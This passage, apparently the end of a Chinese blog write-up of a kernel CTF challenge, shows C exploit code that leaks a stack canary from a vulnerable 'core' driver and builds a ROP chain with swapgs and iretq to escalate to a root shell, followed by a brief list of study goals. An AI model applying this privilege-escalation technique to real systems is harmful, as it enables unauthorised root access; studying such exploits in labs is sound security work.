 ```c
            commit_creds = addr;
            continue;
        }
        if(!prepare_kernel_cred && !strcmp(buf,"prepare_kernel_cred")){
            prepare_kernel_cred = addr;
            continue;
        }
    }
    printf("find!\n");
    printf("commit_creds:%llx\n",commit_creds);
    printf("preprae_kernel_cred:%llx\n",prepare_kernel_cred);
    
    size_t canary;
    char buffer[64];
    core_set(fd,64);
    core_read(fd,buffer);
    canary = ((size_t *)buffer)[0];
    printf("canary:%llx\n",canary);

    size_t offset = prepare_kernel_cred - 0xFFFFFFFF8109CCE0;
    size_t swapgs_pop_rdi_retq = offset + 0xffffffff81a012da;
    size_t iretq = offset + 0xffffffff813eb448;

    size_t rop_chain[0x100];
    int i=0;
    for(i=0;i<10;i++){
        rop_chain[i]=canary;
    }
    rop_chain[i++] = (size_t)get_root_privilege;
    rop_chain[i++] = swapgs_pop_rdi_retq;
    rop_chain[i++] = 0;
    rop_chain[i++] = iretq;
    rop_chain[i++] = (size_t)get_root_shell;
    rop_chain[i++] = user_cs;
    rop_chain[i++] = user_rflags;
    rop_chain[i++] = user_sp;
    rop_chain[i++] = user_ss;
    write(fd,rop_chain,0x100);
    core_copy_func(fd,0xffffffffffff0000 | (0x100));
    
    return 0;
}
```

## 待办

总之要学的事情还有很多，之后有空再来学习吧~

linux权限系统的管理

linux内核系统知识的学习。
